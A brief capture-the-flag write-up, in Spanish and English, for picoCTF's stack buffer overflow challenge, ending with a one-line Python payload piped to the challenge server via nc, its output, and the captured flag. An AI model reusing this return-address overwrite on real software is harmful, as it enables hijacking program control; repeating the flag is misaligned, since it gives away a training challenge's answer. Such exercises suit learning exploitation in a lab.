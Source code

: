 # Level 3
## Objetivo
Control the return addressNow we're cooking! You can overflow the buffer and return to the flag function in the [program](https://artifacts.picoctf.net/c/185/vuln).You can view source [here](https://artifacts.picoctf.net/c/185/vuln.c). And connect with it using `nc saturn.picoctf.net 62413`
## Pistas
Make sure you consider big Endian vs small Endian.
Changing the address of the return pointer can call different functions.
## Solucion
┌──(diego㉿kali)-[~]
└─$ python -c "import sys; sys.stdout.buffer.write(b'A'*44+b'\xf6\x91\x04\x08'+b'\n')" | nc saturn.picoctf.net 59223
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_a8284f4f}   
## Notas Adicionales
|comando|descripcion|
|-------|-----------|
|xxx|xxx|
## Referencias